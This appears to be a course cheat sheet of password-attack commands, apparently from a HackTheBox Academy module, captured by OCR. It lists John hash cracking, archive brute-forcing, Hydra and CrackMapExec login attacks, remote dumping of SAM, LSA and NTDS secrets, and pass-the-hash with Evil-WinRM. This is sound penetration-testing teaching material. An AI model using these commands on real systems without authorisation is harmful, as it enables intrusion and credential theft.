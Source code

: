 | `john --wordlist=rockyou.txt protected-docx.hash`            | Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash. |
| `pdf2john.pl PDF.pdf > pdf.hash`                       | Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked. |
| `john --wordlist=rockyou.txt pdf.hash`                       | Runs John in conjunction with a wordlist to crack a pdf hash. |
| `zip2john ZIP.zip > zip.hash`                                | Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash. |
| `john --wordlist=rockyou.txt zip.hash`                       | Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash. |
| `bitlocker2john -i Backup.vhd > backup.hashes`               | Uses Bitlocker2john script to extract hashes from a VHD file and directs the output to a file called backup.hashes. |
| `file GZIP.gzip`                                             | Uses the Linux-based file tool to gather file format information. |
| `for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null \| tar xz;done` | Script that runs a for-loop to extract files from an archive. |


| **Command**        | **Description** |
| :--------------- | :----------------------------------------------------------- |
| `xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `evil-winrm -i <ip> -u user -p password`            | Uses Evil-WinRM to establish a Powershell session with a target. |
| `ssh user@<ip>`                                     | Uses SSH to connect to a target using a specified user.      |
| `smbclient -U user \\\\<ip>\\SHARENAME`             | Uses smbclient to connect to an SMB share using a specified user. |
| `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/` | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

#### Password Mutations

| **Command**        | **Description** |
| :--------------- | :----------------------------------------------------------- |
| `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist` | Uses cewl to generate a wordlist based on keywords present on a website. |
| `hashcat --force password.list -r custom.rule --stdout > mut_password.list` | Uses Hashcat to generate a rule-based word list.             |
| `./username-anarchy -i /path/to/listoffirstandlastnames.txt` | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |
| `curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt` | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

#### Remote Password Attacks

| **Command**        | **Description** |
| :--------------- | :----------------------------------------------------------- |
| `crackmapexec winrm <ip> -u user.list -p password.list` | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target. |
| `crackmapexec smb <ip> -u "user" -p "password" --shares` | Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials. |
| `hydra -L user.list -P password.list <service>://<ip>`       | Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service. |
| `hydra -l username -P password.list <service>://<ip>`       | Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service. |
| `hydra -l user.list -p password <service>://<ip>`       | Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service. |
| `hydra -C <user_pass.list> ssh://<IP>`                       | Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam` | Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa` | Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way. |
| `crackmapexec smb <ip> -u <username> -p <password> --ntds` | Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network. |
| `evil-winrm -i <ip>  -u  Administrator -H "<passwordhash>"` | Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of `Pass-The-Hash` attack. |
